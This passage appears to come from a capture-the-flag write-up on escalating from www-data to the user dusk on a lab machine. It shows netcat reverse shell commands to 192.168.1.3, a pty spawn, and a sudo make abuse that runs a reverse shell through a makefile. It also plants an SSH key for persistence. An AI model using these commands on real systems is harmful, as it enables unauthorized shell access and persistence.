 ```
Date: Sat, 30 Nov 2019 17:50:01 -0500 (EST)

[Sat Nov 30 17:50:01 2019] Failed to listen on 192.168.1.167:8080 (reason: Address already in use)
```

Later it switches the dir from /tmp/ to /var/tmp. There was an email every minute. 

To me, this looked like dusk is trying to start a php webserver, but can't because www-data already has.

I ran `ps -U www-data -o "%P %c %a"` to see the running commands www-data has done:

```
PPID COMMAND         COMMAND
  651 apache2         /usr/sbin/apache2 -k start
  651 apache2         /usr/sbin/apache2 -k start
  651 apache2         /usr/sbin/apache2 -k start
  651 apache2         /usr/sbin/apache2 -k start
  651 apache2         /usr/sbin/apache2 -k start
 1141 sh              /bin/sh -c /usr/bin/php -S 0.0.0.0:8080 -t /var/tmp
 1143 php             /usr/bin/php -S 0.0.0.0:8080 -t /var/tmp
  651 apache2         /usr/sbin/apache2 -k start
 1146 sh              sh -c nc 192.168.1.3 4444 -e /bin/bash
 1517 bash            bash
 1518 python          python -c import pty;pty.spawn('/bin/bash');
 1528 bash            /bin/bash
 1529 ps              ps -U www-data -o %P %c %a
```

In theory, if I killed `1141` or `1143`, above, then the cron job should start a new server as dusk, right?

Before trying, I ran `/usr/bin/php -S 0.0.0.0:8081 -t /var/tmp` to start a secondary server as www-data.

When I killed the server, it came back shortly. Doing a whoami, however, revealed it was still www-data. Relooking at the mail message, and examining the new logs, I saw it was actually restarting the server for www-data, not dusk /facepalm

## Learning how sudo works, again

I went back to look at make, which sudo -l told me I could use. It said `(dusk) NOPASSWD`, so why was I getting a sudo prompt when I ran it with `sudo /usr/bin/make`? Eventually I figured it out: `sudo -l` was telling me I could use sudo to act as dusk for the command, but I needed to specify dusk when running sudo!

I created a makefile for a reverse netcat using `printf "all:\n\tnc 192.168.1.3 6666 -e /bin/bash" > makefile`, then ran it with `sudo -u dusk /usr/bin/make`, and sure enough it worked and I had a dusk shell :D

I went to the home dir for dusk, created `.ssh/authorized_keys` with my kali's public ssh key, `chmod 644` for authorized_keys and `chmod 700` for .ssh, and finally was able to remotely ssh in for a proper shell.

## Recon as dusk, docker and win!
